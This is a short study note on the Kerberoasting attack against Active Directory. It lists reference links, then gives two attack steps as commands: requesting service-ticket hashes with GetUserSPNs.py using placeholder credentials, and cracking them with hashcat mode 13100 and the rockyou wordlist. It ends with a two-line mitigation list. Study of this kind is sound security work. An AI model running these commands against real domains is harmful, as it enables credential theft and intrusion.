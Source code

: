 # Kerberoasting

## Resources

* [https://medium.com/@Shorty420/kerberoasting-9108477279cc](https://medium.com/@Shorty420/kerberoasting-9108477279cc)
* [https://www.redsiege.com/wp-content/uploads/2020/04/20200430-kerb101.pdf](https://www.redsiege.com/wp-content/uploads/2020/04/20200430-kerb101.pdf)
* [https://www.youtube.com/watch?v=LmbP-XD1SC8\&t=30s\&ab_channel=SANSOffensiveOperations](https://www.youtube.com/watch?v=LmbP-XD1SC8\&t=30s\&ab_channel=SANSOffensiveOperations)
* [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)
* [https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don't-Get-It-wp.pdf](https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don't-Get-It-wp.pdf)
* [https://www.varonis.com/blog/kerberos-authentication-explained/](https://www.varonis.com/blog/kerberos-authentication-explained/)
* [https://medium.com/@t0pazg3m/pass-the-ticket-ptt-attack-in-mimikatz-and-a-gotcha-96a5805e257a](https://medium.com/@t0pazg3m/pass-the-ticket-ptt-attack-in-mimikatz-and-a-gotcha-96a5805e257a)
* [https://www.hackingarticles.in/kerberoasting-and-pass-the-ticket-attack-using-linux/](https://www.hackingarticles.in/kerberoasting-and-pass-the-ticket-attack-using-linux/)
* [https://posts.specterops.io/kerberoasting-revisited-d434351bd4d1](https://posts.specterops.io/kerberoasting-revisited-d434351bd4d1)
* [https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1](https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1)

![](../../../.gitbook/assets/kerberoasting-overview.png)

## Kerberoasting Attack Overview

#### Step 1: Get SPNs (Service Principal Name), Dump Hash

```bash
python getuserspns.py <DOMAIN/username:password> -dc-ip <ip of DC> -request
```

#### Step 2: Crack the Hash

```bash
hashcat --help | grep Kerberos
hashcat -m 13100 kerberoasthash.txt rockyou.txt
```

## Mitigation

* strong passwords
* least privilege
